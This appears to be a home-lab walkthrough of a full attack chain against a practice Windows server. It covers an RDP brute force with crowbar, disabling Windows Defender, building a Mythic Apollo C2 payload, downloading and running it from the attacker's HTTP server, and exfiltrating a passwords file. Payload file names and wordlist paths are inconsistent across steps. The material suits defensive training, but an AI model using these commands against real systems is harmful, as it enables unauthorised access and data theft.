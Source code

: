 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<MYDFIR-WIN-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    
![[Screenshot 2025-10-18 163516.png]]
---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami 
`ipconfig 
`net user 
`net group 
`net user Administrator`
![[Pasted image 20251018164112.png]]
![[Pasted image 20251018164424.png]]
---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
- Disable Real-time protection and other security features.
![[Pasted image 20251018164559.png]]
---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<MYDFIR-MYTHIC-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`
    
    ![[Screenshot (25).png]]
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
    ![[Pasted image 20251018165718.png]]
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
    - Output Format: **WinExe**
    - Commands: **Include All**
    - C2 Profile: **HTTP**
    - Callback Host: `http://<MYDFIR-MYTHIC-IP>`
    - Port: `80`
    - Payload Name: `apollo.exe`

![[Pasted image 20251018170233.png]]

---

### 9. Hosting and Downloading Payload

1. **Download Payload  Move the file to a new directory**
    
    `wget <payload_download_link> --no-check-certificate
    
    ![[Pasted image 20251018170657.png]]
    
2. **Serve Payload over HTTP**
    
    `ufw allow 80 
    `ufw allow 9999`
    `python3 -m http.server 9999`

![[Pasted image 20251018171055.png]]
![[Pasted image 20251018171120.png]]
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
    
4. **Execute Payload**
    
    `.\apollo.exe`
    
5. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo